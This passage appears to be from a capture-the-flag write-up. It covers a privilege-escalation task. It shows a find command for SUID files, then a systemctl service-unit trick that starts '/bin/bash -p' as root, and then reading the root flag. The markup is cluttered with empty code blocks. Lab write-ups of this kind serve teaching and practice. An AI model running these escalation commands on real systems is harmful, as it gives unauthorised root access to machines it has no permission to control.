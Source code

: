#### Task 5: Privilege Escalation {#16e0 .graf .graf--h4 .graf-after--li name="16e0"}

1.  [Enumerate the file system and identify potential privilege
    escalation vectors:]{#4b75}

``` {#d710 .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

-   [`find / -user root -perm -4000 -exec ls -ldb {} \;`{.markup--code
    .markup--li-code}]{#d13f}

``` {#adc9 .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

``` {#4594 .graf .graf--pre .graf--empty .graf-after--pre .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

1.  [\
    ]{#ec50}

-   [Notable discovery: `/bin/systemctl`{.markup--code .markup--li-code}
    with the SUID bit set.]{#0e9f}
-   [\
    ]{#9773}

1.  [\
    ]{#40b7}
2.  [Use GTFOBins to create a privilege escalation exploit for
    `systemctl`{.markup--code .markup--li-code}:]{#57c5}

``` {#c3d7 .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

-   [`echo '[Service] ExecStart=/bin/bash -p' > /tmp/root.service systemctl link /tmp/root.service systemctl enable /tmp/root.service systemctl start /tmp/root.service`{.markup--code
    .markup--li-code}]{#d095}

``` {#423d .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

``` {#d28b .graf .graf--pre .graf--empty .graf-after--pre .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

1.  [\
    ]{#b5b6}

-   [This grants a root shell.]{#f66c}
-   [\
    ]{#cbeb}

1.  [\
    ]{#7db2}
2.  [Verify escalated privileges and retrieve the root flag:]{#32dd}

``` {#95bd .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```

-   [`whoami cat /root/root.txt`{.markup--code .markup--li-code}]{#cd9e}

``` {#0d7c .graf .graf--pre .graf--empty .graf-after--li .graf--preV2 code-block-mode="1" spellcheck="false" code-block-lang="typescript"}
```
